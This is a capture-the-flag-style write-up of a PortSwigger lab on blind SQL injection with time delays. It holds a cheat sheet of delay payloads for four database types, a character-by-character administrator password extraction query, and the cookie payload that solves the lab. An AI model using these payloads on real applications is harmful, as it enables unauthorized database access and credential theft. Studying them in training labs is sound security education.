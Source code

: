 # Blind SQL injection with time delays

# Review

In some of the preceding examples, we've seen how you can exploit the way applications fail to properly handle database errors. But what if the application catches these errors and handles them gracefully? Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of a SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

### Cheat sheet

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| DATABASE TYPE | QUERIES |
| --- | --- |
| Oracle | dbms_pipe.receive_message(('a'),10) |
| Microsoft | WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT pg_sleep(10) |
| MySQL | SELECT SLEEP(10) |

You can test a single boolean condition and trigger a time delay if the condition is true.

| DATABASE TYPE | QUERIES |
| --- | --- |
| Oracle | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual |
| Microsoft | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END |
| MySQL | SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') |

# Lab instruction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

# Lab Walkthrough

**Original Request**

```
GET /login HTTP/2
Host: 0a66006e04bb5ae58084584b00780080.web-security-academy.net
Cookie: TrackingId=odZhPDYp8lQabJdv; session=BZAIdBQVFpOY3KYTJbtxSPmj3UWtIvKz
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a66006e04bb5ae58084584b00780080.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

********************Original Response********************

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3128

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Blind SQL injection with time delays</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Blind SQL injection with time delays</h2>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/blind/lab-time-delays'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action="/login">
                            <input required type="hidden" name="csrf" value="iMyKOQMvyN4mZFfTwTcfZ0wu7M2X9p3x">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```

Delete the original `TrackingId` and replace it with another string such as

```
Cookie: TrackingId=none
```

Then add the query to delay the response

```
Cookie: TrackingId=none' || pg_sleep(10)--
```